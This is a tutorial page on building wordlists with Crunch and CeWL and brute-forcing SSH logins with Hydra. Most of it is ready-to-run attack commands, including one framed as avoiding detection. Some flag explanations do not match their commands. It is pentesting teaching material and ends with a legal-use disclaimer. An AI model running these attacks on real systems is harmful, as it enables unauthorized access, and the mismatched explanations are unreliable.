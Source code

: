 ```yaml
---
title: "Creating Custom Wordlists and Rules for Hydra"
description: "Learn more about Hydra"
icon: "code"
draft: false
---
```


To effectively use Hydra for brute-forcing SSH connections, creating custom wordlists and rules is crucial. Custom wordlists tailored to specific targets can significantly enhance the success rate of brute-force attacks. This guide will cover methods to create custom wordlists and define rules for their efficient use with Hydra.

## Why Create Custom Wordlists?

Using generic wordlists like `rockyou.txt` can be effective, but they may not always suit specific targets. Custom wordlists can:
- Tailor attacks to specific targets based on gathered information.
- Include unique or uncommon passwords.
- Increase the chances of successful brute-force attempts.

## Creating Custom Wordlists

### 1. Using `Crunch` to Generate Wordlists

Crunch generates wordlists based on specified criteria. It's useful for creating lists of various lengths and patterns.

Install Crunch:

```bash
sudo apt install crunch
```

When creating the wordlist, we will typically use this command
```sh
crunch <min> <max> <charset>
```

- min: is the minimun password length
- max: is the maximum password length
- charset: Character se to be used

Generate a wordlist with all combinations of letters:

```bash
crunch 3 6 0123456789
```

- **8**: Minimum length of words.
- **10**: Maximum length of words.
- **abcdefghijklmnopqrstuvwxyz**: Character set.
- **-o wordlist.txt**: Output file.

<a target='_blank'><img src='https://i.postimg.cc/FK2rgDzL/image.png' border='0' alt='image'/></a>

#### Creating Wordlist in a text file.

If you want your wordlist file in text format run this command on your terminal

```sh
crunch 3 6 0123456789 -o list.txt
```

#### Creating  Custom Wordlist With Letters, Symbols, and Numbers.

This Step is for Mixed with  letters, Symbols, Numbers and creating a custom wordlist Run this command on Your terminal

```sh
crunch 4 8 123abcdefgh#$% -o list2.txt
```
- –o : Output in a textfile. along with name of the text file.

### 2. Using `CeWL` to Generate Wordlists

CeWL (Custom Word List generator) is a ruby app that spiders a given URL to a specified depth and generates a custom wordlist from the text found on the website.

Install CeWL:

```bash
sudo apt-get install cewl
```

Generate a wordlist:

```bash
cewl http://example.com -m 5 -w wordlist.txt
```

- **http://example.com**: Target URL.
- **-m 5**: Minimum word length (5 characters).
- **-w wordlist.txt**: Output file.

## Combining Multiple Wordlists

You can merge several wordlists into one to cover a broader range of possibilities.

```bash
cat wordlist1.txt wordlist2.txt > combined_wordlist.txt
sort combined_wordlist.txt | uniq > final_wordlist.txt
```

- **cat**: Concatenates files.
- **sort**: Sorts the combined list.
- **uniq**: Removes duplicate entries.

## Creating Rules for Hydra

Hydra supports various flags and options to customize brute-force attacks. Understanding and applying these rules can optimize the attack process.

### Specifying Usernames and Passwords

Using a custom username list:

```bash
hydra -L custom_userlist.txt -P pass.txt 192.168.29.135 ssh -t 4
```

Using a custom password list:

```bash
hydra -l username -P custom_passlist.txt 192.168.29.135 ssh -t 4
```

### Customizing Thread Count

Adjust the number of parallel threads to balance speed and server load:

```bash
hydra -L user.txt -P pass.txt 192.168.29.135 ssh -t 8
```

### Targeting Multiple IPs

To target multiple IP addresses simultaneously:

```bash
hydra -L user.txt -P pass.txt -M ip_list.txt ssh -t 4
```

### Advanced Password Guessing with `-e` Flag

The `-e` flag in Hydra adds extra password guessing techniques:

```bash
hydra -l username -P pass.txt 192.168.29.135 -e nsr ssh
```

- **-e n**: Try empty passwords.
- **-e s**: Try the username as the password.
- **-e r**: Try the reverse of the username.

### Verbose Mode and Detailed Output

Enable verbose mode for detailed output:

```bash
hydra -L user.txt -P pass.txt 192.168.29.135 ssh -V
```

### Changing Default SSH Port

Specify a custom SSH port if the target uses a non-standard port:

```bash
hydra -s 2222 -L user.txt -P pass.txt 192.168.29.135 ssh -t 4
```

### Using Custom Login Attempts

Limit login attempts to avoid detection and blocking:

```bash
hydra -L user.txt -P pass.txt 192.168.29.135 ssh -t 4 -f
```

- **-f**: Exit after the first successful login.

## Conclusion

Creating custom wordlists and using Hydra for brute-force attacks should always be done ethically and legally. Unauthorized access to systems is illegal and punishable by law. Use these techniques only for authorized penetration testing and security assessments.

By creating custom wordlists and applying advanced rules, security professionals can more effectively test the strength of SSH credentials and enhance their overall security measures.